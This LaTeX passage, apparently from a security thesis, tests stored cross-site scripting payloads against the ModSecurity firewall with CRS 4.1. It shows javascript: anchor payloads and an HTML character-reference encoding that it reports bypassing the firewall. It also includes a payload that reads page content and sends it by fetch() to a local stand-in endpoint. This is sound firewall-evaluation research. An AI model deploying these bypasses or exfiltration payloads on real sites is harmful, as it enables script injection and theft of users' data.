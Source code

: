 \begin{lstlisting}[style=basicStyle, language=Python]
<a href=javascript:alert('a')>ClickMeFor$</a>
\end{lstlisting}
After obscuring the payload with a single iteration of \acrshort{html} character reference substitution, the modified payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}
successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML Character Reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}
successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1.


\subsubsection{HTML Character References + JavaScript normal character escape}

\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to exploit a XSS vulnerability to exfiltrate secrets:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}
A request containing this payload was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 based on 4 rule triggers:

